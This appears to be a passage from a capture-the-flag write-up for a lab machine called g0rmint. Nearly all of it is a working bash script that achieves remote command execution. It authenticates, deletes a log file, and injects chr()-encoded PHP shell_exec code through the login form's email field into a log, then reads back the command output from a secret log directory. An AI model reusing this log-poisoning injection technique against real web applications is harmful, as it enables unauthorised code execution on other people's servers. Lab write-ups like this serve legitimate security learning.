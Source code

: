 I wrote a bash script to automate remote command execution as follows:

```bash
# cat exploit.sh
#!/bin/bash

HOST=192.168.198.130
BASE=g0rmint
SECRET=s3cr3t-dir3ct0ry-f0r-l0gs

EMAIL=$1
PASS=$2
COMD=$3

# authenticate
function authenticate() {
  curl \
    -s \
    -c cookie \
    -d "email=$EMAIL&pass=$PASS&submit=submit" \
    http://$HOST/$BASE/login.php &>/dev/null
}

# encode
function encode() {
  for b in $(echo -n "$1" | xxd -p | sed -r 's/(..)/\1 /g'); do
    printf "chr(%d)\n" "0x$b"
  done | tr '\n' '.' | sed 's/.$//g'
  echo
}

# exploit
function exploit() {
  PAYLOAD=$(encode "$COMD")
  DATE=$(date "+%Y-%m-%d")
  curl \
    -s \
    -b cookie \
    http://$HOST/$BASE/deletesecretlogfile.php?file=$DATE.php &>/dev/null
  curl \
    -s \
    --data "email=<?php echo shell_exec($PAYLOAD);?>&pass=&submit=submit" \
    http://$HOST/$BASE/login.php &>/dev/null
  curl \
    -s \
    -b cookie \
    http://$HOST/$BASE/$SECRET/$DATE.php | \
    sed -e 's/Failed login attempt detected with email: //' -e 's/<br>//g' | \
    sed '1d' | sed '$d'
}

# main()
authenticate
exploit

# Remove cookie jar
rm -rf cookie
```
